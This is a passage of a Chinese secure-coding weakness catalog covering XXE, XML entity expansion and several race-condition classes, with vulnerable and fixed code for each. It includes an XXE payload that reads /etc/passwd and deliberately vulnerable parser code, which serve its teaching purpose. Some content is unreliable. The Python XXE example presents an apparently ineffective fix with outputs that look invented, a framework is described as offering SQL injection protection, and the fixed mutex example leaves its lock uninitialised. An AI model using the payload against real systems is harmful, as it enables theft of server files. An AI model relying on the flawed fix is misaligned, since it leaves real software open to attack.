**别名: **XML外部实体引用的限制不当（“XXE”）；XML外部实体注入；XXE注入；XML外部实体引用引起信息泄露；XML外部实体文件泄露导致的信息泄露

**描述**
XXE注入，是XML外部实体注入（XML External Entity Injection），当应用程序处理用户提供的XML文档而不禁用对外部资源的引用时，URI解析为预期控制范围之外的文档，导致产品将不正确的文档嵌入到其输出中，会出现XML外部实体（XXE）注入漏洞。XML解析器通常默认支持外部引用。


- 外部实体可以引用解析器文件系统上的文件；利用此功能可能允许检索任意文件，或通过使服务器读取`/dev/random`等文件而拒绝服务。- 外部实体通常也可以通过HTTP协议处理程序引用网络资源。向其他系统发送请求的能力可以允许易受攻击的服务器被用作攻击代理。通过提交适当的负载，攻击者可以使应用服务器攻击它可以与交互的其他系统。这可能包括公共第三方系统、同一组织内的内部系统或应用服务器自身的本地环回适配器上可用的服务。根据网络架构的不同，这可能会暴露外部攻击者无法访问的高度易受攻击的内部服务。
**语言: **JAVA,PYTHON

**严重等级**
严重

**cleancode特征**
安全,可靠,高效

**缺陷防护全景**
**软件实现设计**
- 策略1：限制XML解析器功能
  设计时选择不支持外部实体和DTD的XML解析器，或配置现有解析器禁用这些功能。
- 策略2：数据输入验证
  设计模块时，确保所有XML输入经过严格的验证和清理，防止恶意实体或DTD声明。
- 策略3：安全默认配置
  设定默认配置为安全模式，禁用外部实体和DTD，减少开发人员配置错误的风险。
- 策略4：监控和日志记录
  实施实时监控，检测内存使用情况和CPU负载，在服务器端启用监控和日志记录功能，及时发现和应对潜在的XXE攻击。
- 策略5：使用安全组件或框架
  使用经过审核的安全组件，防止此弱点发生。例如Huawei WSF安全框架，提供的SQL注入防护措施。
  ```xml
  <dependency>
      <groupId>com.huawei.us</groupId>
      <artifactId>us-core</artifactId>
      <version>${version}</version>
  </dependency>
  ```

**编码**
- 策略1：使用安全的XML解析库
  使用支持安全配置的XML解析库，并确保这些库的版本是最新的，以避免已知的安全漏洞。示例：选择如Java中的`XMLInputFactory`并配置`setDisallowDoctypeDeclaration(true)`，或Python中的`defusedxml`库。
- 策略2：配置解析器 `推荐`
  有效性：高
  在代码中正确配置XML解析器，在解析XML时，禁用外部实体和DTD加载，或者限制递归DTD实体的扩展。示例：使用`DocumentBuilderFactory`的`setFeature`方法来禁用相关特性。
- 策略3：输入验证和清理
  对所有XML（特别是上传的XML）文件进行严格的验证，确保其结构和内容符合预期。使用XML模式（XSD）来验证XML文件，防止恶意内容注入。示例：使用正则表达式或白名单过滤。
- 策略4：限制资源访问
  设置内存限制和时间限制，防止解析过程占用过多资源。使用`Parser`的配置选项来限制最大深度和节点数。
- 策略5：日志记录
  记录所有异常情况，如解析错误或拒绝的输入，便于后续分析。
- 策略6：遵守安全编码规范
  制定并遵循安全编码规范。示例：《G.EDV.05 防止解析来自外部的XML导致的外部实体（XML External Entity）攻击》

**开发者测试**
- 策略1：单元测试
  测试各种输入情况，特别是边界条件和异常输入测试代码的健壮性。

**代码Review**
- 策略1：代码走读
  有经验的开发人员检查相关代码，确保代码安全。
- 策略2：检查配置
  确保解析器正确配置，禁用外部实体和DTD。
- 策略3：验证日志
  确认关键操作被记录，便于监控和排查。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别不安全配置和潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 通过禁用外部实体解析功能防止XXE注入**
**语言: **PYTHON

**描述**
一个Web应用程序，该程序允许用户上传XML文件，并在服务器端解析这些文件以提取数据。然而，该程序没有对XML文件进行充分的安全检查，导致存在XML外部实体注入（XXE）漏洞。攻击者可以利用这个漏洞构造一个恶意的XML文件，通过外部实体引用服务器上的敏感文件或执行其他恶意操作。

**案例分析**
1. 攻击者构造恶意XML文件：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
<content>&xxe;</content>
</data>
```
这个XML文件定义了一个外部实体`xxe`，指向服务器上的`/etc/passwd`文件。当服务器解析这个XML文件时，会尝试读取`/etc/passwd`文件的内容，并将其嵌入到响应中。
2. 上传恶意XML文件。
3. 服务器解析XML文件：服务器使用默认的XML解析器（如`xml.etree.ElementTree`或`lxml`）解析上传的XML文件。由于解析器默认启用外部实体解析，服务器会尝试读取`/etc/passwd`文件的内容。
4. 漏洞利用成功：服务器返回的响应中包含`/etc/passwd`文件的内容，攻击者成功获取了服务器上的敏感信息。

**反例**
```python
import xml.etree.ElementTree as ET

def parse_xml(xml_file):
    tree = ET.parse(xml_file)
    root = tree.getroot()
    for child in root:
        print(child.text)

parse_xml('malicious.xml')
```

输出结果：

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

服务器解析XML文件时，读取了`/etc/passwd`文件的内容并输出，导致敏感信息泄露。

**正例**
```python
import xml.etree.ElementTree as ET
from xml.sax.xmlreader import XMLReader

def parse_xml(xml_file):
    # 禁用外部实体解析
    parser = ET.XMLParser()
    parser.entity = None  # 禁用实体解析
    tree = ET.parse(xml_file, parser)
    root = tree.getroot()
    for child in root:
        print(child.text)

parse_xml('malicious.xml')
```

输出结果：

```text
None
```

服务器在解析XML文件时，禁用了外部实体解析，因此无法读取`/etc/passwd`文件的内容，攻击失败。

**修复建议**
- 禁用外部实体解析：在解析XML文件时，禁用外部实体解析功能。对于不同的XML解析库，禁用方法可能不同，例如在`xml.etree.ElementTree`中可以设置`parser.entity = None`。

#### CWD-1114-000 XML外部实体攻击（“XXE”）

#### CWD-1114-001 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.bind.JAXBContext造成的外部实体注入（XXE）攻击

#### CWD-1114-002 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.parsers.DocumentBuilderFactory造成的外部实体注入（XXE）攻击

#### CWD-1114-003 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.parsers.SAXParserFactory造成的外部实体注入XXE攻击

#### CWD-1114-004 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.stream.XMLInputFactory造成的外部实体注入（XXE）攻击

#### CWD-1114-005 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.transform.sax.SAXTransformerFactory造成的外部实体注入（XXE）攻击

#### CWD-1114-006 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.transform.TransformerFactory造成的外部实体注入（XXE）攻击

#### CWD-1114-007 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.validation.SchemaFactory造成的外部实体注入（XXE）攻击

#### CWD-1114-008 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.xpath.XPathExpression造成的外部实体注入（XXE）攻击

#### CWD-1114-009 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】org.xml.sax.helpers.XMLReaderFactory造成的外部实体注入（XXE）攻击

#### CWD-1114-010 【使用jdom2解析XML内容存在实体注入的问题】org.jdom2.input.SAXBuilder造成的外部实体注入（XXE）攻击

#### CWD-1114-011 【使用xerces解析XML内容存在实体注入的问题】org.apache.xerces.jaxp.DocumentBuilderFactoryImpl造成的外部实体注入（XXE）攻击

#### CWD-1114-012 【使用dom4j解析XML内容存在实体注入的问题】org.dom4j.io.SAXReader造成的外部实体注入（XXE）攻击

**业界缺陷**

- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
---

# CWD-1115 XML内部实体扩展（“XEE”）

**别名: **XEE；XML炸弹；指数型实体扩展攻击；DTD中递归实体引用的限制不当（“XML实体扩展”）；DTD中不受限制的递归实体引用（“XML炸弹”）

**描述**
XEE攻击，是XML实体扩展（XML Entity Expansion attack），攻击利用XML DTD中的一种功能，该功能允许创建可在整个文档中使用的自定义宏（称为实体）。通过在文档顶部递归定义一组自定义实体，攻击者可以通过强制解析器几乎无限期地在这些递归定义上迭代来压倒试图完全解析实体的解析器。恶意XML消息用于强制递归实体扩展（或其他重复处理），完全耗尽可用服务器资源。

**语言: **JAVA

**严重等级**
严重

**cleancode特征**
安全,可靠,高效

**缺陷防护全景**
**软件实现设计**
- 策略1：限制实体使用
  设计时应禁用外部实体，或限制实体的数量和大小，避免使用可能导致问题的实体。
- 策略2：选择安全的XML解析库
  选用具有内置防护机制的XML解析库，确保其安全可靠。如`Woodstox`或`Xerces`，并确保它们是最新的版本。
- 策略3：监控和日志记录
  实施实时监控，检测内存使用情况和CPU负载，及时发现异常。记录解析过程中的异常事件，便于后续分析和审计。
- 策略4：使用安全组件或框架
  使用经过审核的安全组件，防止此弱点发生。例如Huawei WSF安全框架，提供的SQL注入防护措施。
  ```xml
  <dependency>
      <groupId>com.huawei.us</groupId>
      <artifactId>us-core</artifactId>
      <version>${version}</version>
  </dependency>
  ```

**编码**
- 策略1：配置解析器 `推荐`
  有效性：高
  在代码中正确配置XML解析器，在解析XML时，禁用DTD，或者限制递归DTD实体的扩展。示例：使用`DocumentBuilderFactory`的`setFeature`方法来禁用相关特性。
- 策略2：输入验证
  对所有XML（特别是上传的XML）文件进行严格的验证，确保其结构和内容符合预期。使用XML模式（XSD）来验证XML文件，防止恶意内容注入。
- 策略3：限制资源访问
  设置内存限制和时间限制，防止解析过程占用过多资源。使用`Parser`的配置选项来限制最大深度和节点数。
- 策略4：遵守安全编码规范
  制定并遵循安全编码规范。示例：《G.EDV.06 防止解析来自外部的XML导致的内部实体扩展（XML Entity Expansion）攻击》

**开发者测试**
- 策略1：单元测试
  编写测试用例，模拟XEE攻击，检查系统是否能正确处理或拒绝恶意输入。

**代码Review**
- 策略1：检查配置
  有经验的开发人员检查相关代码，确保XML解析器配置安全，无外部实体解析启用。
- 策略2：验证输入处理
  确认所有输入验证逻辑正确，无潜在漏洞。
- 策略3：安全框架使用检查
  确保安全框架正确使用，没有误用导致漏洞。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别不安全配置和潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 通过禁用 DTD 加载防止`DocumentBuilderFactory`解析器的 XEE**
**语言: **JAVA

**描述**
某系统允许用户上传XML格式的订单文件。系统后端使用Java的`DocumentBuilderFactory`来解析这些XML文件。攻击者发现该系统存在XML内部实体扩展（XEE）漏洞，通过上传一个包含恶意实体定义的XML文件，导致服务器内存耗尽，服务中断。

**案例分析**
使用`DocumentBuilderFactory`来解析XML文件，但默认情况下允许实体扩展。攻击者可以构造一个包含恶意实体的XML文件，导致实体递归展开，耗尽服务器内存。

**反例**
```java
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.DocumentBuilder;
import org.w3c.dom.Document;
import java.io.File;

public class VulnerableXMLParser {
    public static void main(String[] args) {
        try {
            File inputFile = new File("malicious.xml");
            DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
            DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
            Document doc = dBuilder.parse(inputFile);
            doc.getDocumentElement().normalize();
            Logger.info("XML parsed successfully");
        } catch (Exception e) {
            // ...异常处理
        }
    }
}
```

**正例**
```java
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.DocumentBuilder;
import org.w3c.dom.Document;
import java.io.File;

public class SecureXMLParser {
    public static void main(String[] args) {
        try {
            File inputFile = new File("safe.xml");
            DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
            // 禁用实体扩展
            dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
            dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
            dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
            DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
            Document doc = dBuilder.parse(inputFile);
            doc.getDocumentElement().normalize();
            Logger.info("XML parsed successfully");
        } catch (Exception e) {
            // ...异常处理
        }
    }
}
```

**修复建议**
- 通过设置多个安全相关的特性，禁用了外部实体和文档类型声明（DTD）的加载，确保在解析XML时不会处理外部实体，从而避免内存耗尽的风险。

#### CWD-1115-000 XML内部实体扩展（“XEE”）

#### CWD-1115-001 【使用JDK组件解析XML内容导致实体扩展攻击】javax.xml.bind.JAXBContext造成的内部实体扩展攻击

#### CWD-1115-002 【使用JDK组件解析XML内容导致实体扩展攻击】javax.xml.parsers.DocumentBuilderFactory造成的内部实体扩展攻击

#### CWD-1115-003 【使用JDK组件解析XML内容导致实体扩展攻击】javax.xml.parsers.SAXParserFactory造成的内部实体扩展攻击

#### CWD-1115-004 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.stream.XMLInputFactory造成的内部实体扩展攻击

#### CWD-1115-005 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.transform.sax.SAXTransformerFactory造成的内部实体扩展攻击

#### CWD-1115-006 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.transform.TransformerFactory造成的内部实体扩展攻击

#### CWD-1115-007 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.validation.SchemaFactory造成的内部实体扩展攻击

#### CWD-1115-008 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】javax.xml.xpath.XPathExpression造成的内部实体扩展攻击

#### CWD-1115-009 【使用JDK包下存在的组件解析XML内容存在实体注入的问题】org.xml.sax.helpers.XMLReaderFactory造成的内部实体扩展攻击

#### CWD-1115-010 【使用jdom2解析XML内容存在实体注入的问题】org.jdom2.input.SAXBuilder造成的内部实体扩展攻击

#### CWD-1115-011 【使用xerces解析XML内容存在实体注入的问题】org.apache.xerces.jaxp.DocumentBuilderFactoryImpl造成的内部实体扩展攻击

#### CWD-1115-012 【使用dom4j解析XML内容存在实体注入的问题】org.dom4j.io.SAXReader造成的内部实体扩展攻击

**业界缺陷**

- [CWE-776: Improper Restriction of Recursive Entity References in DTDs ('XML Entity Expansion')](https://cwe.mitre.org/data/definitions/776.html)
---

# CWD-1117 信号处理例程中发生的竞争条件

**描述**
信号处理程序用于处理来自操作系统或其他进程的信号，例如中断信号（如SIGINT）、终止信号（如SIGTERM）等。信号处理程序支持异步操作，意味着它们可以在任何时候被触发，从而在程序执行过程中引入竞争条件。竞争条件可能被攻击者利用，导致程序执行任意代码或拒绝服务。为了防止信号处理程序中的竞争条件，应使用异步安全的函数和对象。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：避免信号处理程序中访问和修改共享对象
  在设计信号处理程序时，确保其不依赖或修改共享状态，以防止可能会造成的竞争条件，使数据处于不确定的状态。
- 策略2：在信号处理程序中使用异步安全函数
  选择那些设计为异步安全的函数，以减少竞争条件的风险。

**编码**
- 策略1：在信号处理程序中仅调用异步信号安全函数，避免使用非安全函数。
  在信号处理程序中，如果要调用函数，仅可调用异步信号安全函数，函数列表参见：《华为C语言编程规范》：[附录C 异步安全函数列表]。
- 策略2：使用volatile sig_atomic_t类型的原子对象进行共享状态的读写
  在信号处理程序中，如果需共享对象，请使用volatile sig_atomic_t类型的变量。这种类型的对象在C标准中被定义为异步信号安全的，可以在信号处理程序和主程序之间以原子方式读写，而无需额外的锁或其他同步机制。

**开发者测试**
- 策略1：单元测试信号处理程序
  编写测试用例，模拟信号的触发，确保信号处理程序在各种情况下都能正确执行。
- 策略2：竞争条件测试
  设计测试用例，故意触发竞争条件，观察系统是否能正确处理或报告错误。

**代码Review**
- 策略1：检查信号处理程序是否使用共享状态
  在代码审查过程中，特别关注信号处理程序是否访问或修改全局或静态变量。
- 策略2：检查信号处理程序中是否使用了非异步安全函数
  审查信号处理程序中的函数调用，确保没有使用可能导致竞争条件的非异步安全函数。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测信号处理程序中的竞争条件问题。

**示例**
**案例1: 在信号处理程序中修改非volatile sig_atomic_t类型的对象**
**语言: **C

**描述**
信号处理程序和主程序可能同时访问和修改g_msg，导致数据不一致或内存损坏。

**反例**
```c
#define MAX_MSG_SIZE 32
static char g_msgBuf[MAX_MSG_SIZE] = {0};
static char *g_msg = g_msgBuf;

void SignalHandler(int signum)
{
    // 不符合：下面代码操作g_msg不合规，因为不是异步安全的
    (void)memset_s(g_msg, MAX_MSG_SIZE, 0, MAX_MSG_SIZE);
    errno_t ret = strcpy_s(g_msg, MAX_MSG_SIZE, "signal SIGINT received.");
    ... // 处理 ret
}

int main(void)
{
    errno_t ret = strcpy_s(g_msg, MAX_MSG_SIZE, "No msg yet."); // 初始化消息内容
    ... // 处理 ret

    signal(SIGINT, SignalHandler); // 设置SIGINT信号对应的处理函数

    ... // 程序主循环代码

    return 0;
}
```

**正例**
```c
#define MAX_MSG_SIZE 32
volatile sig_atomic_t g_sigFlag = 0;

void SignalHandler(int signum)
{
    g_sigFlag = 1; // 符合
}

int main(void)
{
    signal(SIGINT, SignalHandler);
    char msgBuf[MAX_MSG_SIZE];
    errno_t ret = strcpy_s(msgBuf, sizeof(msgBuf), "No msg yet."); // 初始化消息内容
    ... // 处理 ret

    ... // 程序主循环代码

    if (g_sigFlag == 1) {  // 在退出主循环之后，根据g_sigFlag状态再刷新消息内容
        ret = strcpy_s(msgBuf, sizeof(msgBuf), "signal SIGINT received.");
        ... // 处理 ret
    }

    return 0;
}
```

**修复建议**
1. 除以下两个场景外，禁止在信号处理程序中访问或者修改共享对象。
- 读写不需要加锁的原子对象;
- 读写volatile sig_atomic_t类型的对象，因为具有volatile sig_atomic_t类型的对象即使在出现异步中断的时候也可以作为一个原子实体访问，是异步安全的。
2. 可在信号程序外部处理共享对象。

#### CWD-1117-000 信号处理例程中发生的竞争条件

#### CWD-1117-001 函数内信号量提前释放导致的竞争条件

#### CWD-1117-002 使用引入竞争条件的信号处理程序

**业界缺陷**

- [CWE-364: Signal Handler Race Condition](https://cwe.mitre.org/data/definitions/364.html)
---

# CWD-1118 线程内的竞争条件

**描述**
线程内的竞争条件是指在多线程环境中，两个或多个线程同时访问和操作共享资源时，由于操作的顺序不确定，导致程序行为不可预测的情况。当一个线程销毁或修改共享资源时，另一个线程可能继续使用该资源，从而引发错误或不一致的状态。为了防止线程内的竞争条件，应通过互斥锁、信号量等机制确保共享资源的访问顺序。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：实施同步机制
  设计时明确资源访问顺序，使用互斥锁、信号量或条件变量确保资源访问的原子性。

**编码**
- 策略1：使用同步关键字
   如在Java中使用synchronized关键字，在C中使用pthread_mutex_lock确保共享资源访问同步。

**开发者测试**
- 策略1：编写多线程测试
    编写单元测试模拟多线程环境，检查竞争条件是否存在。

**代码Review**
- 策略1：检查共享变量同步
   确保所有共享变量操作都被正确同步，避免遗漏。
- 策略2：确保锁正确使用
  检查锁是否正确获取和释放，避免死锁。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测线程内的竞争条件问题。

**示例**
**案例1: 全局变量被多个线程修改**
**语言: **C

**描述**
两个线程同时对共享变量 counter 进行递增操作，但由于没有同步机制，多个线程可能同时读取和修改 counter，导致计数不准确。最终的 counter 值可能小于预期的值，因为线程之间的操作顺序不确定。

**反例**
```c
static volatile int g_counter = 0;  // 共享变量，未加保护

void *ThreadIncrement(void *arg)
{
    int i;
    for (i = 0; i < 50000; i++) {
        g_counter++;  // 多个线程同时操作共享变量，导致竞争条件
    }
    return NULL;
}

int main()
{
    pthread_t thread1;
    pthread_t thread2;

    pthread_create(&thread1, NULL, ThreadIncrement, NULL);
    pthread_create(&thread2, NULL, ThreadIncrement, NULL);

    pthread_join(thread1, NULL);
    pthread_join(thread2, NULL);

    printf("Final counter value: %d\n", g_counter);  // 不符合：实际值小于预期的100000
    return 0;
}
```

**正例**
```c
static volatile int g_counter = 0;  // 共享变量
pthread_mutex_t mutex;     // 互斥锁

void *ThreadIncrement(void *arg)
{
    int i;
    for (i = 0; i < 50000; i++) {
        pthread_mutex_lock(&mutex);     // 加锁，确保互斥访问
        g_counter++;
        pthread_mutex_unlock(&mutex);   // 解锁
    }
    return NULL;
}

int main()
{
    pthread_t thread1;
    pthread_t thread2;

    pthread_create(&thread1, NULL, ThreadIncrement, NULL);
    pthread_create(&thread2, NULL, ThreadIncrement, NULL);

    pthread_join(thread1, NULL);
    pthread_join(thread2, NULL);

    // 销毁互斥锁
    pthread_mutex_destroy(&mutex);
    printf("Final counter value: %d\n", g_counter);  // 符合
    return 0;
}
```

**修复建议**
通过互斥锁对共享变量的访问进行保护，确保同一时间只有一个线程可以修改。

**案例2: 全局变量被多个线程修改**
**语言: **CPP

**描述**
两个线程同时对共享变量 counter 进行递增操作，但由于没有同步机制，多个线程可能同时读取和修改 counter，导致计数不准确。最终的 counter 值可能小于预期的值，因为线程之间的操作顺序不确定。

**反例**
```cpp
static volatile int32_t g_counter = 0;  // 共享变量，未加保护

void ThreadIncrement()
{
    for (int i = 0; i < 50000; ++i) {
        g_counter++; // 多个线程同时操作共享变量，导致竞争条件
    }
}

int main()
{
    std::thread thread1(ThreadIncrement);
    std::thread thread2(ThreadIncrement);

    thread1.join();
    thread2.join();

    std::cout << "Final counter value: " << g_counter << std::endl;  // 不符合：实际值小于预期的100000
    return 0;
}
```

**正例**
```cpp
static volatile int32_t g_counter = 0;  // 共享变量
std::mutex mtx;                         // 互斥锁

void ThreadIncrement()
{
    for (int i = 0; i < 50000; ++i) {
        std::lock_guard<std::mutex> lock(mtx);  // 加锁，确保互斥访问
        g_counter++;
    }
}

int main()
{
    std::thread thread1(ThreadIncrement);
    std::thread thread2(ThreadIncrement);

    thread1.join();
    thread2.join();

    std::cout << "Final counter value: " << g_counter << std::endl;  // 符合
    return 0;
}
```

**修复建议**
1. 通过互斥锁对共享变量的访问进行保护，确保同一时间只有一个线程可以修改。
2. std::lock_guard的使用进一步简化了锁的管理，避免了手动加锁和解锁可能带来的错误。

#### CWD-1118-000 线程内的竞争条件

#### CWD-1118-001 线程中断由业务代码来协作完成，慎用Thread.interrupt方法

#### CWD-1118-002 使用Thread.stop()来终止线程

**业界缺陷**

- [CWE-366: Race Condition within a Thread](https://cwe.mitre.org/data/definitions/366.html)
---

# CWD-1119 检查时间与使用时间(TOCTOU)的竞争条件

**描述**
程序在检查资源状态和实际使用资源之间存在时间窗口，攻击者可以利用这个窗口修改资源的状态，导致检查结果失效。这种漏洞可能导致攻击者执行未经授权的操作，例如访问受限的资源、替换文件导致读取或执行恶意文件，以及绕过权限检查，获取未授权的访问或操作权限。为了防止TOCTOU漏洞，建议采用原子操作、使用文件锁或其他同步机制来确保资源的检查和使用是原子的，避免中间的时间窗口被利用。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：确保资源检查和使用操作原子化。
  在设计时，将资源的检查和使用操作合并为一个不可分割的原子操作，防止其他线程或进程在中间插入操作。

**编码**
- 策略1：在检查前锁定资源
  在访问共享资源之前，使用适当的锁定机制（如文件锁、互斥锁等）来确保资源在检查和使用期间不会被其他进程或线程修改。
- 策略2：使用原子性的方法或函数
  使用原子性的方法或函数，一次性完成检查和使用操作，避免中间状态改变。例如，直接打开文件并读取内容，而不是先检查文件是否存在再打开，这样可以减少时间窗口，避免资源状态在检查和使用之间被修改。
- 策略3：使用同步机制
  在多线程环境下，使用同步机制（例如JAVA语言的 synchronized、ReentrantLock 等），确保检查和使用操作的原子性。
- 策略5：最小化时间窗口
  将检查和使用资源的代码紧密相连，避免包含可能引发线程切换的操作。

**开发者测试**
- 策略1：编写多线程测试
    编写单元测试模拟多线程环境，检查竞争条件是否存在。

**代码Review**
- 策略1：检查资源检查和使用
    在代码审查中，检查资源检查和使用之间是否存在竞争条件风险。
- 策略2：确保锁正确使用
  检查锁是否正确获取和释放，避免死锁。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测TOCTOU问题。

**示例**
**案例1: 文件检查与打开之间的时间窗口导致竞争条件**
**语言: **C

**描述**
在IO操作中，即使先检查文件存在，再打开文件，也会有文件在刚检查完，还没有打开的时间差内被删除或修改的情况，导致竞争条件漏洞。

**案例分析**
首先使用access函数检查文件filename是否存在。如果文件存在，程序打开文件并读取内容。问题在于，access和fopen之间存在时间窗口，如果在此期间文件被删除或修改，fopen可能会失败或读取到不一致的数据，导致竞争条件漏洞。

**反例**
```c
int Process(char *filename)
{
    // 检查文件是否存在
    if (access(filename, F_OK) == 0) {
        ... // 时间窗口，攻击者可能删除或修改文件
        // 打开文件
        FILE *file = fopen(filename, "r");
        ...
        fclose(file);
    }
    return SUCCESS;
}
```

**正例**
```c
int Process(char *filename)
{
    // 直接打开文件
    FILE *file = fopen(filename, "r");
    if (file == NULL) {
        return FAILURE;
    }
    ...
    fclose(file);
    return SUCCESS;
}
```

**修复建议**
直接尝试打开文件，并在打开失败时处理错误，而不是先检查文件是否存在。这样可以避免竞争条件漏洞。

**案例2: 文件检查与打开之间的时间窗口导致竞争条件**
**语言: **CPP

**描述**
在IO操作中，即使先检查文件存在，再打开文件，也会有文件在刚检查完，还没有打开的时间差内被删除或修改的情况，导致竞争条件漏洞。

**案例分析**
首先使用access函数检查文件filename是否存在。如果文件存在，程序打开文件并读取内容。问题在于，access和文件打开之间存在时间窗口，如果在此期间文件被删除或修改，文件打开可能会失败或读取到不一致的数据，导致竞争条件漏洞。

**反例**
```cpp
int Process(char *filename)
{
    // 不符合：检查文件是否存在
    if (access(fileName, R_OK) == 0) {
        std::ifstream file(fileName);   // 有可能失败
        ...
    }
    return SUCCESS;
}
```

**正例**
```cpp
int Process(char *filename)
{
    std::ifstream file(fileName);
    if (file.fail()) {   // 符合：及时检查处理并中断执行
        return FAILURE;
    }
    ...
    return SUCCESS;
}
```

**修复建议**
直接尝试打开文件，并在打开失败时处理错误，而不是先检查文件是否存在。这样可以避免竞争条件漏洞。

#### CWD-1119-000 检查时间与使用时间(TOCTOU)的竞争条件

#### CWD-1119-001 检查时间与使用时间时间差导致的竞争

**业界缺陷**

- [CWE-367: Time-of-check Time-of-use (TOCTOU) Race Condition](https://cwe.mitre.org/data/definitions/367.html)
---

# CWD-1120 上下文切换竞争条件

**别名: **在权限切换过程中因时序问题导致的安全缺陷；跨安全边界的上下文切换竞争条件

**描述**
产品在执行跨越权限或其他安全边界的上下文切换时采用了一系列非原子操作，但由于存在竞争条件，攻击者能够在切换过程中篡改或误导产品行为。此类漏洞常见于网页浏览器：当浏览器在受信任域与不受信任域之间切换时（或反向切换），攻击者可实施特定操作，导致浏览器以目标域的信任级别和资源权限执行来自另一域的操作。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：最小化同步范围
  只在必要时同步，尽量减少同步块中的代码量，特别是避免在同步块中执行耗时操作（如I/O操作）。
- 策略2：文档化线程安全策略
  在类文档中明确说明类的线程安全特性，帮助其他开发者正确使用。
- 策略3：考虑不可变性
  对于简单场景，考虑使用不可变对象来避免同步问题。

**编码**
- 策略1：优先使用同步块
  相比同步方法，同步块可以更细粒度地控制锁的范围，减少性能影响。
- 策略2：使用专用锁对象
  使用私有`final对象`作为锁，而不是使用`this`或`公开可访问的对象`，防止外部代码干扰同步。
- 策略3：考虑更高级的并发工具
  对于更复杂的场景，可以考虑使用`java.util.concurrent`包中的高级并发工具，如`ReentrantLock`、`Atomic`类等。

**开发者测试**
- 策略1：测试多线程场景
